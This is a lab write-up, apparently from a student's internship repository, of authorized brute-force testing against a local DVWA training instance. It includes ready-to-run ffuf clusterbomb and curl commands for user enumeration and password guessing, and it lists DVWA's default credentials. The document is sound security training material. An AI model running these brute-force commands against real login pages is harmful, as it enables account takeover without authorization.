


# DVWA Web Pentesting

## 1. Objective

The objective of this lab was to perform authorized web application security testing against a local Damn Vulnerable Web Application (DVWA) instance running at:

`http://localhost:8080`

The testing focused on:

* Identifying DVWA users through enumeration and fuzzing.
* Fuzzing the login endpoint for valid username/password combinations.
* Fuzzing the exposed user-image endpoint.
* Confirming discovered credentials manually.
* Capturing Burp Suite and ffuf evidence.
* Saving machine-readable and HTML ffuf results.

The DVWA security level was set to **Low**.

> **Scope:** All testing documented in this report was performed against the local DVWA lab instance on `localhost`.

---

## 2. Tools Used

| Tool       | Purpose                                              |
| ---------- | ---------------------------------------------------- |
| Burp Suite | HTTP request and session inspection                  |
| ffuf       | Username/password and image endpoint fuzzing         |
| curl       | Baseline requests and manual credential verification |
| jq         | Parsing ffuf JSON output                             |
| SecLists   | Username and password wordlists                      |

The ffuf version used during testing was:

```text
2.1.0-dev
```

`wfuzz` was not installed in the Fedora environment, so **ffuf was used for the fuzzing tasks**. This report does not claim that wfuzz was used.

---

## 3. Target

DVWA base URL:

```text
http://localhost:8080
```

Brute-force endpoint:

```text
http://localhost:8080/vulnerabilities/brute/
```

User image directory:

```text
http://localhost:8080/hackable/users/
```

---

## 4. Burp Suite Session Evidence

The DVWA brute-force request was inspected through Burp Suite.

The request contained the DVWA session cookie and the low-security setting:

```text
Cookie: PHPSESSID=<redacted>; security=low
```

The actual session cookie is intentionally redacted from this report and was not included in the repository.


---

## 5. Establishing a Baseline Response

Before fuzzing, an invalid login was submitted to determine the normal failed-login response.

Example request:

```text
GET /vulnerabilities/brute/?username=test&password=wrong&Login=Login
```

The failed response contained:

```text
Username and/or password incorrect.
```

The failed response size was:

```text
4375 bytes
```

This response size was used as the ffuf negative-response filter:

```text
-fs 4375
```

A successful login produced a different response size and contained:

```text
Welcome to the password protected area
```

This provided a measurable distinction between failed and successful authentication attempts.

---

## 6. User Enumeration

The DVWA user-image directory was inspected with:

```bash
curl -s http://localhost:8080/hackable/users/
```

The directory exposed the following image filenames:

```text
1337.jpg
admin.jpg
gordonb.jpg
pablo.jpg
smithy.jpg
```

These filenames revealed five usernames:

```text
1337
admin
gordonb
pablo
smithy
```

The discovered usernames were placed into the final username wordlist:

```text
/home/maeel/Desktop/via-internship-2026/web_pentesting/DVWA/wordlists/dvwa_users.txt
```

The contents were:

```text
1337
admin
gordonb
pablo
smithy
```



---

## 7. Password Wordlist

The final credential fuzzing used the following SecLists password wordlist:

```text
/home/maeel/Desktop/security-tools/SecLists/Passwords/Common-Credentials/10k-most-common.txt
```

The wordlist contains 10,001 lines.

---

## 8. Credential Fuzzing

The final username/password fuzzing was performed with ffuf using the `clusterbomb` mode.

The exact command was:

```bash
ffuf \
  -s \
  -w wordlists/dvwa_users.txt:USER \
  -w /home/maeel/Desktop/security-tools/SecLists/Passwords/Common-Credentials/10k-most-common.txt:PASS \
  -u 'http://localhost:8080/vulnerabilities/brute/?username=USER&password=PASS&Login=Login' \
  -H "Cookie: $DVWA_COOKIE" \
  -fs 4375 \
  -mode clusterbomb \
  -t 20 \
  -of all \
  -o results/ffuf_dvwa_users_10k
```

### ffuf Options Used

| Option              | Purpose                                                   |
| ------------------- | --------------------------------------------------------- |
| `-s`                | Runs ffuf in silent mode                                  |
| `-w`                | Specifies a wordlist                                      |
| `:USER`             | Defines `USER` as the username fuzzing keyword            |
| `:PASS`             | Defines `PASS` as the password fuzzing keyword            |
| `-u`                | Specifies the target URL                                  |
| `-H`                | Adds the DVWA session cookie                              |
| `-fs 4375`          | Filters the known failed-login response size              |
| `-mode clusterbomb` | Tests combinations of the username and password wordlists |
| `-t 20`             | Uses 20 concurrent threads                                |
| `-of all`           | Produces multiple output formats                          |
| `-o`                | Specifies the output filename prefix                      |

The session cookie was supplied through the `$DVWA_COOKIE` shell variable and was not written into this README.


---

## 9. Credential Results

The final ffuf run identified five successful username/password combinations.

| Username | Password | HTTP Status | Response Size |
| -------- | -------- | ----------: | ------------: |
| smithy   | password |         200 |          4415 |
| pablo    | letmein  |         200 |          4413 |
| gordonb  | abc123   |         200 |          4417 |
| admin    | password |         200 |          4413 |
| 1337     | charley  |         200 |          4411 |

The machine-readable ffuf output is stored in:

```text
results/ffuf_dvwa_users_10k.json
```

Additional formats generated by ffuf are:

```text
results/ffuf_dvwa_users_10k.csv
results/ffuf_dvwa_users_10k.ecsv
results/ffuf_dvwa_users_10k.ejson
results/ffuf_dvwa_users_10k.html
results/ffuf_dvwa_users_10k.md
```

The confirmed credentials are also recorded in:

```text
results/found_users.txt
```

and:

```text
results/credentials_summary.md
```

---

## 10. Manual Credential Verification

Each credential discovered by ffuf was independently tested against the DVWA brute-force endpoint.

The verification command used was:

```bash
curl -s \
  -b "$DVWA_COOKIE" \
  --get \
  --data-urlencode "username=$user" \
  --data-urlencode "password=$pass" \
  --data-urlencode "Login=Login" \
  'http://localhost:8080/vulnerabilities/brute/' \
  | grep -i -E 'Welcome to the password protected area|Username and/or password incorrect'
```

A successful response contained:

```text
Welcome to the password protected area <username>
```

The following five credentials were successfully confirmed:

```text
admin : password
1337 : charley
gordonb : abc123
pablo : letmein
smithy : password
```

### Successful Login Evidence

#### Admin


#### 1337



#### Gordonb


#### Pablo


#### Smithy


---

## 11. Image Endpoint Fuzzing

The exposed DVWA user-image directory was also tested with ffuf.

First, a nonexistent image was requested:

```text
http://localhost:8080/hackable/users/not-a-real-user.jpg
```

The response was:

```text
HTTP 404
Size: 309 bytes
```

A known image was also tested:

```text
http://localhost:8080/hackable/users/admin.jpg
```

The response was:

```text
HTTP 200
Size: 3543 bytes
```

The ffuf image endpoint fuzzing command was:

```bash
ffuf \
  -s \
  -w wordlists/dvwa_image_users.txt:USER \
  -u 'http://localhost:8080/hackable/users/USER.jpg' \
  -H "Cookie: $DVWA_COOKIE" \
  -mc 200 \
  -of all \
  -o results/ffuf_image_endpoints
```

The resulting files are:

```text
results/ffuf_image_endpoints.json
results/ffuf_image_endpoints.html
results/ffuf_image_endpoints.csv
results/ffuf_image_endpoints.ecsv
results/ffuf_image_endpoints.ejson
results/ffuf_image_endpoints.md
```

### Image Fuzzing Results

The ffuf JSON recorded the following results:

```text
admin  -> HTTP 200 -> admin.jpg
smithy -> HTTP 200 -> smithy.jpg
gordonb -> HTTP 200 -> gordonb.jpg
1337   -> HTTP 200 -> pablo.jpg
```

There is an apparent mismatch in the final ffuf result: the fuzzing input is `1337`, while the recorded URL is `pablo.jpg`.

Because of this discrepancy, the result was not treated as proof that ffuf correctly mapped `1337` to `1337.jpg`.

Instead, each image endpoint was independently tested with `curl`.

### Direct Image Verification

The following endpoints were confirmed to return HTTP 200:

| Image         | HTTP Status | Response Size |
| ------------- | ----------: | ------------: |
| `admin.jpg`   |         200 |          3543 |
| `1337.jpg`    |         200 |          3681 |
| `gordonb.jpg` |         200 |          3063 |
| `pablo.jpg`   |         200 |          2961 |
| `smithy.jpg`  |         200 |          4382 |

Therefore, all five user-image endpoints were directly verified.

---

## 12. Username Wordlists and Credential Provenance

The final credential fuzzing used:

### Username Wordlist

```text
/home/maeel/Desktop/via-internship-2026/web_pentesting/DVWA/wordlists/dvwa_users.txt
```

Contents:

```text
1337
admin
gordonb
pablo
smithy
```

### Password Wordlist

```text
/home/maeel/Desktop/security-tools/SecLists/Passwords/Common-Credentials/10k-most-common.txt
```

### Credential Mapping

| Username | Password | Username Wordlist | Password Wordlist     |
| -------- | -------- | ----------------- | --------------------- |
| admin    | password | `dvwa_users.txt`  | `10k-most-common.txt` |
| 1337     | charley  | `dvwa_users.txt`  | `10k-most-common.txt` |
| gordonb  | abc123   | `dvwa_users.txt`  | `10k-most-common.txt` |
| pablo    | letmein  | `dvwa_users.txt`  | `10k-most-common.txt` |
| smithy   | password | `dvwa_users.txt`  | `10k-most-common.txt` |

---

## 13. Additional Username Wordlist Evidence

An earlier clean ffuf run also identified:

```text
admin : password
```

using the username wordlist:

```text
/home/maeel/Desktop/security-tools/SecLists/Usernames/top-usernames-shortlist.txt
```

and the same password wordlist:

```text
/home/maeel/Desktop/security-tools/SecLists/Passwords/Common-Credentials/10k-most-common.txt
```

The final five-user run independently rediscovered:

```text
admin : password
```

Therefore, the final credential results are based on the dedicated five-user wordlist:

```text
wordlists/dvwa_users.txt
```

---

## 14. Evidence Directory

The final results directory contains:

```text
results/
├── credentials_summary.md
├── ffuf_credentials.csv
├── ffuf_credentials.ecsv
├── ffuf_credentials.ejson
├── ffuf_credentials.html
├── ffuf_credentials.json
├── ffuf_credentials.md
├── ffuf_dvwa_users_10k.csv
├── ffuf_dvwa_users_10k.ecsv
├── ffuf_dvwa_users_10k.ejson
├── ffuf_dvwa_users_10k.html
├── ffuf_dvwa_users_10k.json
├── ffuf_dvwa_users_10k.md
├── ffuf_image_endpoints.csv
├── ffuf_image_endpoints.ecsv
├── ffuf_image_endpoints.ejson
├── ffuf_image_endpoints.html
├── ffuf_image_endpoints.json
├── ffuf_image_endpoints.md
└── found_users.txt
```

The final wordlists are:

```text
wordlists/
├── dvwa_image_users.txt
└── dvwa_users.txt
```

The screenshots are:

```text
screenshots/
├── burp_cookies.png
├── ffuf_password_fuzz.png
├── login_success_1337.png
├── login_success_admin.png
├── login_success_gordonb.png
├── login_success_pablo.png
├── login_success_smithy.png
└── user_enumeration.png
```

---

## 15. Assignment Note

The assignment objective refers to identifying **5 DVWA users**, while another instruction refers to finding **4 usernames and passwords**.

The lab exposed five users, and all five corresponding credentials were successfully discovered and manually verified:

```text
admin : password
1337 : charley
gordonb : abc123
pablo : letmein
smithy : password
```

This report therefore documents all five confirmed users.

---

## 16. Security Considerations

The credentials and session information documented in this report are from the intentionally vulnerable local DVWA training environment.

The live `PHPSESSID` value has been redacted and is not included in the repository.

The testing was limited to:

```text
http://localhost:8080
```

No external systems were targeted.

---

## 17. Conclusion

The authorized DVWA assessment successfully identified five valid user accounts and their corresponding passwords.

The credential fuzzing was performed with ffuf using the five-user username wordlist and the SecLists 10k common-password wordlist. All five discovered credentials were independently verified against the DVWA brute-force endpoint.

The exposed user-image directory was also enumerated. All five corresponding image endpoints were independently verified with direct HTTP requests.

Burp Suite session evidence, ffuf results in multiple formats, username enumeration evidence, and successful-login screenshots have been retained in the repository to document the testing process and results.

The final confirmed credentials were:

```text
admin : password
1337 : charley
gordonb : abc123
pablo : letmein
smithy : password
```
